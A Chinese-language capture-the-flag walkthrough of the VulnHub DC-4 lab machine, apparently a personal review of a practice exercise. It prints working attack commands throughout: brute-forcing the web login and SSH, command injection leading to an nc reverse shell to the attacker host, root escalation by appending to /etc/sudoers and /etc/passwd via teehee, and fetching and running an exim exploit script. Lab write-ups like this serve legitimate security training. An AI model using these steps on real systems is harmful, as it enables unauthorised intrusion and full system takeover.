## 复盘*

## 靶机地址

[DC: 4 ~ VulnHub](https://www.vulnhub.com/entry/dc-4,313/)





## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```


创建nmapscan文件夹用于存放nmap扫描结果


#### 主机探活

```
sudo nmap -sn  192.168.1.0/24
```



确定靶机ip

192.168.1.4


#### 端口扫描

```
sudo nmap -sT --min-rate 10000 -p- 192.168.1.4 -oA nmapscan/ports
```



开放了

- 22 ssh服务
- 80 http服务


#### 提取端口信息

```
ports=$(cat nmapscan/ports.nmap | grep open | awk -F/ '{print $1}' | paste -sd,)
```




#### 详细结果扫描

```
sudo nmap -sT -sC -sV -O -p 22,80 192.168.1.4 -oA nmapscan/detail
```



分析：

- 22 ssh OpenSSH 7.4p1
- 80 http nginx 1.15.10

#### udp扫描

```
sudo nmap -sU --top-ports 20 192.168.1.4 -oA nmapscan/udp
```




### 80 端口

#### 访问192.168.1.4



登陆界面


#### 查看源码



无关键信息


#### dirsearch进行目录扫描

```
sudo dirsearch -u 192.168.1.4
```



分析：

- 只有一个index.php可以访问，也就是登录界面


#### gobuster进行目录扫描

```
sudo gobuster dir -u http://192.168.1.4/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html.js,css
```



分析：

- 扫描结果一样


#### 尝试sql注入

##### bp抓包，跑sqlmap






失败


##### 修改注入点






失败

#### 尝试爆破



admin信息系统登录

判断用户名为admin

选用简单密码字典先尝试一下

这里我用的是

```
/usr/share/john/password.lst
```

密码字典


##### 登录，抓包



##### 放到intruder模块，添加payload



##### 加载密码字典



##### 开始爆破



##### 得到密码

```
happy
```


#### 登录后台页面



有一个Command





点击run

执行ls -l

存在命令执行，也就是如果我们可以将执行的命令修改，也就可以尝试构造恶意请求


##### 命令执行，抓包



##### 修改radio参数为whoami





##### 成功执行


##### 尝试反弹shell

注意：

```
ls -l在radio参数中写成了ls+-l
也就是需要将空格替换为+
```

首先查看对方系统中是否是nc

```
which+nc
```






nc反弹shell

本地开启监听

```
nc -lvp 283
```



```
nc+-e+/bin/bash+192.168.1.3+283
```




#### 成功反弹shell




#### python转换终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```




#### 查看用户信息

```
cat /etc/passwd
```



存在

- charles
- jim
- sam

三个用户


#### 进入home目录

```
cd /home 
ls -al ./*
```



查看home目录下的所有文件

其中jim目录下存在

- backups路径
- mbox
- test.sh


#### 进入backups

```
cd jim/backups
ls -al
```





存在密码备份文件




#### 将密码字典保存到本地



复制也行

利用nc互传文件也行（可能行，但是我传的时候提示端口拒绝连接）

python开简单服务器传文件也行（python -m SimpleHTTPServer 8080）

但是不能将该文件拷贝到/var/www/html服务器上，权限不足


### 22端口

#### 利用hydra爆破密码

```
sudo hydra -l jim -P passwd.txt ssh://192.168.1.4
```



jim目录下的密码文件，首先应该尝试以jim作为用户名进行爆破，如果没结果再尝试另外两个用户

成功得到

```
jim:jibril04
```


#### ssh登录

```
ssh jim@192.168.1.4
```



成功登录


## 提权

### 尝试sudo -l

```
sudo -l
```



提示jim没有sudo权限


### 查看mbox



```
This is a test.
这是一次测试。
```


### 查看test.sh



存在suid位，但是用户为jim，也就是当前用户


### 进入邮件系统（/var/mail）

```
cd /var/mail
ls
cat jim
```



```
Hi Jim,
I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

你好，Jim，
我今天下班后要去度假，所以老板让我把我的密码给你，以防万一有什么问题。
```

得到Charles密码^xHhA&hvim0y


### 切换到charles

```
su - charles
```



注意：在/etc/passwd中的用户charles是全小写

成功切换到charles


### 执行sudo -l

```
sudo -l
```



无密码执行teehee


### teehee提权

#### 第一种

往/etc/sudoers追加内容

```
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers
sudo -l
```



即往/etc/sudoers中追加charles ALL=(ALL:ALL) ALL

即charles可以以root权限执行所有命令


#### 第二种

往/etc/passwd中追加内容

```
echo "ra1n3::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su - ra1n3su - ra1n3
```



添加具有管理员权限的用户ra1n3


### suid位提权

#### suid位查找

```
find / -perm -4000 2>/dev/null
```



exim4

```
cd /usr/sbin
./exim4 --version
```




exim 4.89


#### 搜索相关漏洞

```
sudo searchsploit exim
```



#### 下载该提权脚本

```
sudo searchsploit -m linux/local/46996.sh
```




#### 本地开启http服务

```
sudo python -m http.server
```


#### wget下载

```
cd /tmp
wget 192.168.1.3:8000/46996.sh
```






#### 执行

```
chmod +x 46996.sh
./46996.sh
id
```



#### 提权成功


### 得到flag

```
cd /root
ls -al
cat flag.txt
```

